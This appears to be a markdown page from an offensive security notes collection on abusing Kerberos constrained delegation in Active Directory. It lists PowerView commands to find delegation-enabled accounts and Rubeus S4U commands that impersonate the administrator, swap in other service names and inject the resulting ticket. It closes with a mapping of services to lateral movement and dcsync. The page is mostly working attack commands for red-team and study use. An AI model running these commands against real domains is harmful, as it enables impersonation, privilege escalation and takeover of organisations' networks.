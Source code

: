 #  Methodology
>1.  Enumerate users/computers which have constrained delegation enabled (Ignore domain controllers).
>2. Understand what you can acces if you compromise the user/machine by looking at `msDS-AllowedToDelegateTo`.
>3. Impersonate the user or have SYSTEM on the constrained delegation machine.
>4. Impersonate the high value target and abuse the lack of SPN validation.
---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find objects with constrained delegation enabled:**
```powershell
# Users
Get-DomainUser –TrustedToAuth

# Computers
Get-DomainComputer –TrustedToAuth
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus
**Use the S4U module to inject the ticket to the current session:**
```cmd
Rubeus.exe s4u /user:constrained_user /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.contoso.local /domain:us.contoso.local /ptt
```

**Abuse the lack of verification to query another SPN:**
```cmd
Rubeus.exe s4u /user:constrained_user /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/usmssql.us.contoso.local /altservice:HTTP /domain:us.contoso.local /ptt
```
>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync.